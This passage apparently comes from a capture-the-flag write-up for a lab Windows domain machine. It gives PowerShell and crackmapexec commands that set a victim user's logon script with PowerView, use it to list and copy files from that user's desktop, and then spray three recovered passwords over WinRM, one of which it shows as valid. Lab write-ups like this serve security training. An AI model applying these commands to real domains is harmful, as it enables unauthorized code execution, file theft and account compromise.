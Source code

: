 ```powershell
cd C:\\Windows\\System32\\spool\\drivers\\color

echo 'whoami > C:\\Windows\\System32\\spool\\drivers\\color\\poc.txt' > foo.ps1

Set-DomainObject -Credential $Cred -Identity maria -SET @{scriptpath='C:\\Windows\\System32\\spool\\drivers\\color\\foo.ps1'}
```

Through `net usr maria`, I can see that Logon script is set properly as **foo.ps1**:

![](https://i.imgur.com/EpX9rqI.png)


**poc.txt** confirms that `whoami` command was succssfully executed as a Logon script:

![](https://i.imgur.com/oTWoOL6.png)


Now I will create a script that will list files inside **maria**'s user directory:

`echo 'dir c:\Users\maria\Desktop > c:\\Windows\\System32\\spool\\drivers\\color\\poc.txt' > foo.ps1`

Checking on the result, it shows that there is **Engines.xls** file inside maria's desktop:

![](https://i.imgur.com/o7NrXAT.png)



I will copy **Engines.xls** file over to accessible diretory path to read it:

`echo 'copy \users\maria\desktop\Engines.xls c:\\Windows\\System32\\spool\\drivers\\color\\' > foo.ps1`

Now I can see that **Engines.xls** has been copied:

![](https://i.imgur.com/KBr8jiy.png)


After downloading **Engines.xls** using `download Engines.xls`, I can open it on local Kali machine:

![](https://i.imgur.com/CPCfpyH.png)


### Password Spraying
I will attempt on password spray using three passwords found:

- d34gb8@
- 0de_434_d545
- W3llcr4ft3d_4cls

Crackmapexec discovers one valid password: **W3llcr4ft3d_4cls**

`crackmapexec winrm 10.10.11.132 -u maria -p pass.txt `

![](https://i.imgur.com/ch7HBfX.png)

